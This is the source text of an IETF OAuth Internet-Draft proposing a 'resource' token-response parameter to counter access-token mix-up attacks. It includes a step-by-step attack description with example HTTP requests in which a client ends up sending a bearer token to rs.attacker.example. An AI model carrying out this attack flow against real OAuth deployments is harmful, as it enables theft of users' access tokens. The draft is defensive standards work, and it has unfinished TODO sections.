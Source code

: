 ```yaml
---
title: OAuth 2.0 Intended Resource Identification
abbrev: Intended Resource Identification
category: std

docname: draft-hanson-oauth-resource-token-resp-latest
submissiontype: IETF
number:
date:
consensus: true
v: 3
area: Security
workgroup: Web Authorization Protocol
keyword:
  - oauth
venue:
  group: Web Authorization Protocol
  type: Working Group
  mail: oauth@ietf.org
  github: jaredhanson/oauth-resource-token-resp

author:
  - name: Jared Hanson
    org: Keycard
    email: jared@keycard.ai

informative:
  MCP:
    title: Model Context Protocol
    target: https://modelcontextprotocol.io/specification/2025-06-18/basic/authorization
  Mastodon:
    title: Mastodon
    target: https://docs.joinmastodon.org/spec/oauth/
  ATProto:
    title: AT Protocol
    target: https://atproto.com/specs/oauth

--- abstract

This document specifies a new parameter `resource` that is used to explicitly
include the resource identifier of the protected resource that the access token
in the token response is intended for.  This `resource` parameter serves as an
effective countermeasure to "mix-up attacks".

--- middle

# Introduction

In traditional OAuth deployments, there is typically a pre-known relationship
between authorization servers and the resource servers they protect.  Clients
that request access to protected resources are manually registered ahead of
time and understand the relationship between issued access tokens and the
protected resources for which those tokens are intended.

As OAuth evolves to support more loosely-coupled deployments, clients are
dynamically discovering configuration using OAuth 2.0 Protected Resource Metadata
{{!RFC9728}} and OAuth 2.0 Authorization Server Metadata {{!RFC8414}} and
registering using OAuth 2.0 Dynamic Client Registration Protocol {{!RFC7591}}.
Networks utilizing dynamic configuration include Model Context Protocol {{MCP}},
Mastodon {{Mastodon}}, and AT Protocol {{ATProto}}.

The token response of OAuth 2.0 does not include any information about the
identity of the intended recipient of the access token issued in the response.
Therefore, clients receiving an access token from the authorization server
cannot be sure which resource(s) the token is intended for.  The lack of
certainty about the intended receipient of a access token enables a class of
attacks called "mix-up attacks".

Mix-up attacks are a potential threat to all OAuth clients that interact with
dynamically discovered resource servers.  When a resource servers is under an
attacker's control, the attacker can launch a mix-up attack to acquire access
tokens issued by a vulnerable authorization server.

OAuth clients that interact with resource servers in a manner in which the
authorization server is statically configured are not vulnerable to mix-up
attacks.  However, when such clients interact with dynamically configured
resource servers and authorization servers, they become vulnerable and need
to apply countermeasures to mitigate mix-up attacks.

Mix-up attacks aim to steal access tokens by tricking the client into sending
the access token to the attacker instead of the intended resource server.  This
marks a severe threat to the confidentiality and integrity of resources whose
access is managed with OAuth.

This document defines a new parameter in the token response called `resource`.
The `resource` parameter allows the authorization server to explicitly include
the identity of the protected resource(s) for which the access token is
intended.  The client can compare the value of the `resource` parameter to the
resource identifier of the protected resource (e.g., retrieved from its
metadata) it believes it is interacting with.  The `resource` parameter gives
the client certainty about the protected resource(s) for which the access token
is intended and enables it to send access tokens only to the intended
recipients.  Therefore, the implementation of the `resource` parameter serves as
an effective countermeasure to mix-up attacks.

# Response Parameter resource

In token responses to the client, an authorization server supporting this
specification MUST indicate the identity of the protected resource(s) for which
the access token is intended by including the `resource` parameter in the
response.

The `resource` parameter value is the resource identifier of the protected
resource(s) for which the access token is intended, as defined by [Section 2](https://datatracker.ietf.org/doc/html/rfc8707#name-resource-parameter)
of {{!RFC8707}}.  In the general
case, the `resource` parameter is an array of strings, each containing a
resource identifier.  In the special case when the access token is intended for
a single protected resource, the `resource` parameter MAY be a string.

## Example Token Response

The following example shows a token response from the authorizaiton server
where the access token is intended for the resource whose resource identifier is
`https://rs.example.com/`:

HTTP/1.1 200 OK
Content-Type: application/json;charset=UTF-8
Cache-Control: no-store
Pragma: no-cache

{
  "access_token":"2YotnFZFEjr1zCsicMWpAA",
  "token_type":"example",
  "expires_in":3600,
  "refresh_token":"tGzv3JOkF0XG5Qx2TlKWIA",
  "resource":"https://rs.example.com/"
}

## Providing the Resource Identifier

Resource servers supporting this specification MUST provide their resource
identifier to enable clients to validate the `resource` parameter effectively.
The recommended approach is [RFC9728](https://datatracker.ietf.org/doc/html/rfc9728).

TODO: Clarify this section.

## Validating the Resource Identifier

TODO: Add this section.

More precisely, clients that interact with resource servers
...
```


# Authorization Server Metadata

The following parameter for the authorization server metadata [RFC8414](https://datatracker.ietf.org/doc/html/rfc8414)
is introduced to signal the authorization server's support for this
specification:

`token_response_resource_parameter_supported`: Boolean parameter indicating
whether the authorization server provides the `resource` parameter in the token
response as defined in Section 2.  If omitted, the default value is false.

# Attack Goals


In this attack, an attacker tricks a client into sending an access token to the
attacker instead of the honest resource server.

# Attack Description

The access token mix-up attack works as follows:

1. The attacker sets up a malicious resource server (https://rs.attacker.example).

2. The malicious resource server publishes metadata indicating that a victim
   authorization server (https://as.victim.example) protects this resource server.
   For example:

   {
      "resource":
        "https://rs.attacker.example",
      "authorization_servers":
        ["https://as.victim.example"]
   }

3. The attacker tricks a legitimate client into connecting to the malicious
   resource server, which challenges the client to authorize using the
   dynamically discovered metadata.   For example:

   HTTP/1.1 401 Unauthorized
   WWW-Authenticate: Bearer resource_metadata=
     "https://rs.attacker.example/.well-known/oauth-protected-resource"

4. The legitimate client sends an authorization request to the victim authorization
   server

   GET /authorize?response_type=code
        &client_id=example-client
        &state=XzZaJlcwYew1u0QBrRv_Gw
        &redirect_uri=https%3A%2F%2Fclient.example.org%2Fcb
        &resource=https%3A%2F%2Frs.attacker.example HTTP/1.1
  Host: as.victim.example

5. The victim authorization server, which does not support resource indidicators,
   receives this request and processes it according to pre-defined set of scope
   for a victim protected resource (https://rs.victim.example).

6. The user consents to authorize the legitimate client access to the victim protected
   resource.

7. The victim authorization server issues an access token to the legitimate client,
   granting it access to the vicitim protected resource.  For example:

   HTTP/1.1 200 OK
   Content-Type: application/json

   {
     "access_token":"mF_9.B5f-4.1JqM",
     "token_type":"Bearer",
     "expires_in":3600,
     "refresh_token":"tGzv3JOkF0XG5Qx2TlKWIA"
   }

7. The legitimate client utilized the access token to make a request to the malicious
   resource server.  For example:

   GET / HTTP/1.1
   Host: rs.attacker.example
   Authorization: Bearer mF_9.B5f-4.1JqM

8. The malicious resource server is now in posession of an access token it can use
   to make authorized requests to the victim resource server.


// https://datatracker.ietf.org/doc/html/rfc9728#name-audience-restricted-access-
